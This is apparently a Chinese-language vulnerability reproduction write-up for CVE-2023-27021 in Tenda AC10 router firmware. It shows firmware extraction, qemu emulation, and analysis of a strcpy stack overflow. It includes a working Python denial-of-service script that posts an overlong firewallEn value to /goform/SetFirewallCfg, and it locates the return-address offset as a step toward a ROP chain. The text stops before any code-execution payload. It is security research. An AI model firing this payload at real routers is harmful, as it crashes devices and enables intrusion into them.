 # CVE-2023-27021 漏洞挖掘及利用

本文尝试通过 tenda 的一个固件对 CVE-2023-27021 进行复现，利用漏洞实现 RCE

CVE 简介：

![image-20250812203906824](./img/cve/image-20250812203906824.png)

## 固件下载及提取

[CVE 中对应的固件下载地址](https://www.tenda.com.cn/material/show/3506)

binwalk 提取固件

```bash
binwalk -Me US_AC10V4.0si_V16.03.10.13_cn_TDC01.bin
```

成功拿到了如下的根文件系统

![image-20250812213213516](./img/cve/image-20250812213213516.png)

## 固件模拟

既然拿到了根文件系统了，那就直接 chroot 了

![image-20250812215055065](./img/cve/image-20250812215055065.png)

由于是 mips 架构的，需要 qemu 来模拟执行，这里进行用户态仿真就行了，这里要注意是小端序（LSB）

> qemu-mips-static 是针对大端序 MPIS（MIPS-BE）的
>
> qemu-mipsel-static 是针对小端序 MPIS（MIPS-LE）的

```bash
sudo apt install qemu-user-static

cp /usr/bin/qemu-mipsel-static .
sudo chroot . ./qemu-mipsel-static  ./bin/httpd
```

![image-20250812222350947](./img/cve/image-20250812222350947.png)

这里就一直卡在这里了。在 IDA 中搜索 WeLoveLinux 字符串定位到这里

![image-20250812222810491](./img/cve/image-20250812222810491.png)

```c
while ( 1 )
{
	lan_ifname = ifaddrs_get_lan_ifname();
	if ( ifaddrs_get_ifip(lan_ifname, v10) >= 0 )
 	break;
	sleep(1u);
}
```

这里可以看到，程序一直在寻找一个可用的局域网接口并尝试获取 IP，由于是在 chroot 的环境下，程序无法查询网络接口，所以就一直卡死在了这个循环里。

虽然这里可以直接 patch 掉，但为了更好地复现漏洞，我们还是给它提供真实的网桥和 IP。

网桥的作用就是连接多个网络接口，使它们之间能相互通信。在这种虚拟化的环境中，网桥允许虚拟机通过主机的网络设备访问外部网络或与主机通信。

这里就用 brctl 创建虚拟网桥连接主机的接口，路由器通过该网桥与主机和外部网络通信

```bash
sudo brctl addbr br0            # 创建网桥
sudo brctl addif br0 enp2s0     # 添加主机接口
sudo ifconfig br0 up            # 激活网桥
sudo dhclient br0               # 从 dhcp 服务器获得 br0 的 IP 
```

然后再次启动即可

![image-20250813010140435](./img/cve/image-20250813010140435.png)

![image-20250813010217060](./img/cve/image-20250813010217060.png)

这里需要把 webroot_ro 文件夹下的内容复制到 webroot 文件夹中

```bash
cp -r webroot_ro/* var/webroot/
```

再次启动即可正常访问

![image-20250813010430498](./img/cve/image-20250813010430498.png)

## 漏洞测试（DoS）

根据 CVE 的描述，问题出现在 formSetFirewallCfg 这个函数里面，先找到它

![image-20250813011534775](./img/cve/image-20250813011534775.png)

这里注意到 strcpy 这个函数，在不对 s 作长度限制的情况下直接 copy 到了栈上，这就可能存在栈溢出的洞

我们先来看看这个函数是干什么的，看一下引用

![image-20250818231812967](./img/cve/image-20250818231812967.png)

websFormDefine 是干什么的呢，这里我们来看看流量

![image-20250818232149592](./img/cve/image-20250818232149592.png)

比如这里的 GetRouterStatus，结合下图，可以猜测 websFormDefine 可能是用来设置不同的 url 接口的处理函数

![image-20250818232312743](./img/cve/image-20250818232312743.png)

再比如我们点击家长控制，就会请求 /goform/GetParentCtrlList

![image-20250818232733923](./img/cve/image-20250818232733923.png)

formSetFirewallCfg 从名字上看应该和防火墙有什么关系，我们点击一下防火墙功能

![image-20250818232949308](./img/cve/image-20250818232949308.png)

![image-20250818233156283](./img/cve/image-20250818233156283.png)

基本可以确定我们的目标 url 路径是 /goform/SetFirewallCfg 了

再次回到 formSetFirewallCfg 这个函数，我们需要控制传入 strcpy 的变量 s，`s = (char *)websGetVar(a1, "firewallEn", "1111");` 

websGetVar 可能表明要传入的变量名是 firewallEn，如果是这样的话，我们可以先来尝试一下 dos 攻击

```python
import requests

url = 'http://192.168.2.165/goform/SetFirewallCfg'


payload = 'a'*0x300


data = {"firewallEn": payload}

response = requests.post(url, data=data)

print(response.status_code)
print(response.text)
```

发包以后无法获得响应，chroot 进程直接卡死了，web 界面也无法访问了，dos 攻击成功

## RCE

要想 rce，那我们就得精心构造合适的 payload。先来学一下 [mips-rop](./mips.md)

### 跟踪调用

先来调试一下看看我们的 payload 是怎样布置到栈上的

```bash
sudo chroot . ./qemu-mipsel-static -g 1234 ./bin/httpd
```

```bash
gdb-multiarch httpd
pwndbg> target remote 192.168.2.180:1234
```

我们先在 `formSetFirewallCfg` 的位置打上断点，然后 c 一下让服务跑起来，此时 httpd 正在等待我们的请求，我们来测试一下

```python
import requests

url = 'http://192.168.2.165/goform/SetFirewallCfg'


payload = 'test'


data = {"firewallEn": payload}

response = requests.post(url, data=data)

print(response.status_code)
print(response.text)
```

 ![image-20250819164038574](./img/cve/image-20250819164038574.png)

这里可以看到，websGetVar 函数处理后得到的就是我们传入的 'test'

![image-20250819165357689](./img/cve/image-20250819165357689.png)

strcpy 之后，'test' 就被复制到 $sp+0x28 的位置了。所以这里的溢出还是很好利用的，我们前面的猜测也是完全正确的。

![image-20250819170628843](./img/cve/image-20250819170628843.png)

$sp+0xbc 的位置保存着返回地址。前面我们 pos 的时候正是将这里覆盖成了一个无效的地址而导致函数返回的时候崩溃。

### 漏洞利用（ROP）

![image-20250819172636312](./img/cve/image-20250819172636312.png)

这里可以看到，栈是不可执行的，所以 `shellcode in stack` 的链子就打不了了。
